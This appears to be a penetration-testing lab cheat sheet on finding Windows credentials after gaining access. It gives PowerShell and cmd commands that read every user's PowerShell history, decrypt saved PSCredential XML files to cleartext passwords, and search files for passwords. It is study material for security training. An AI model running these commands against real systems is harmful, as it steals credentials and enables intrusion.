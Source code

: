 ### Unattended Installation Files
Passwords in the `unattend.xml` are stored in plaintext or base64 encoded.

### PowerShell History File

#### Confirming PowerShell History Save Path
```PowerShell
(Get-PSReadLineOption).HistorySavePath
```

#### Reading PowerShell History File
```PowerShell
gc (Get-PSReadLineOption).HistorySavePath
```

#### One-liner to retrieve the contents of all Powershell history files that we can access as our current user
```PowerShell
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
```

### PowerShell Credentials

#### Decrypting PowerShell Credentials
If we have gained command execution in the context of this user or can abuse DPAPI, then we can recover the cleartext credentials from encrypted.xml. The example below assumes the former.
```PowerShell
$credential = Import-Clixml -Path 'C:\scripts\pass.xml'
```

```PowerShell
$credential.GetNetworkCredential().username
```

```PowerShell
$credential.GetNetworkCredential().password
```

### Manually Searching the File System for Credentials

File hunting cheatsheet: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#search-for-a-file-with-a-certain-filename

#### Example Searches for File Contents
```cmd.exe
cd c:\Users\htb-student\Documents & findstr /SI /M "password" *.xml *.ini *.txt
```

```cmd.exe
findstr /si password *.xml *.ini *.txt *.config
```

```cmd.exe
findstr /spin "password" *.*
```
